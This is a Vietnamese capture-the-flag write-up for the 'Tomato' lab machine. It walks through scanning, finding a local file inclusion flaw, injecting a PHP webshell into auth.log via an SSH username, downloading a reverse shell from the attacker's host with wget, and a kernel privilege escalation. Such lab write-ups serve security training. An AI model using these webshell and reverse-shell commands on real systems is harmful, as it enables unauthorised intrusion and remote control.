 # Tomato
***
Tìm được địa chỉ của victim: `192.168.132.147`
![](./image/image-1.png)
Dò quét với nmap
![](./image/image-2.png)
Truy cập vào cổng 8888 ta thấy một Nginx server được bảo vệ tài khoản mật khẩu
![](./image/image-3.png)
Ở đây, Ta đã sử dụng dirsearch với từ điển "common.txt".Ta đã tìm thấy thư mục “/antibot_image/“.
![](./image/image-4.png)
Ta đi kiểm tra thư mục này
![](./image/image-5.png)
Khi kiểm tra các tập tin, Ta tìm thấy một “info.php“, bên cạnh việc hiển thị cho chúng tôi thông tin hệ thống, phiên bản, v.v. Nó còn bao gồm một món quà bên trong. (Có thể đây là phần phức tạp nhất của chiếc hộp).
![](./image/image-6.png)
`</?php include $_GET['image']; ?>` gợi ý cho chúng ta về lỗ hổng Local File Inclusion (LFI)
Ta tiến hành kiểm thử với payload sau
![](./image/image-7.png)
Với LFI trong tay, ta lần lượt tìm đọc nội dung các file quan trọng và phát hiện auth.log có thể đọc được thông qua lỗ hổng này
![](./image/image-8.png)
```
"auth.log" là file lưu trữ nhật ký truy cập hệ thống. Khi chúng ta đăng nhập thông qua giao diện chính hay qua SSH thì các thông tin đều được lưu trữ tại đây kể cả thành công hay thất bại . Ví dụ như khi chúng ta đăng nhập vào Server thông qua SSH với nội dung ssh 1234@192.168.132.147 và nhập mật khẩu sai nhiều lần, thì nội dung auth.log sẽ ghi nhận :
pam_unix(cron:session): session opened for user root by (uid=0) Jan 16 09:00:01 ubuntu CRON[15022]: pam_unix(cron:session): session closed for user root Jan 16 09:01:03 ubuntu sshd[15027]: Invalid user 1234 from 192.168.132.145 Jan 16 09:01:03 ubuntu sshd[15027]: input_userauth_request: invalid user 1234 [preauth] Jan 16 09:01:05 ubuntu sshd[15027]: pam_unix(sshd:auth): check pass; user unknown Jan 16 09:01:05 ubuntu sshd[15027]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.132.145 Jan 16 09:01:07 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:12 ubuntu sshd[15027]: pam_unix(sshd:auth): check pass; user unknown Jan 16 09:01:14 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:20 ubuntu sshd[15027]: Failed password for invalid user 1234 from 192.168.132.145 port 33934 ssh2 Jan 16 09:01:20 ubuntu sshd[15027]: 

Như vậy phương pháp của ta đơn giản chỉ cần thay user 1234 kia thành payload tùy ý, từ đó hoàn toàn có thể kiểm soát server.
```
```sh 
ssh '<?php system($_GET["cmd"]);?>'@192.168.132.147 -p 2211
#
http://192.168.132.147/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=id
```
Ta có thể thực thi lệnh thông qua tham số cmd, bây giờ ta sẽ chèn một reverse shell để kết nối đến máy attacker
![](./image/image-9.png)
Sử dụng SimpleHTTPServer để build một web-server đơn giản trên máy attacker và Download shell về tomato sau đó thực thi shell
```sh
http://192.168.132.147/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=wget http://192.168.132.145:8081/reverse-shell.php -o /tmp/reverse-shell.php
```
![](./image/image-10.png)
![](./image/image-11.png)
Phiên bản kernel tồn tại lỗi cho phép leo thang đặc quyền
Thực hiện download và biên dịch trên tomato
![](./image/image-12.png)
Do trên máy tomato không có gcc nên thông báo lỗi 
Sau một hồi tìm kiếm thì thấy gcc-5
![](./image/image-13.png)
Tiến thành leo thang đặc quyền
![](./image/image-14.png)
***
## ROOTED


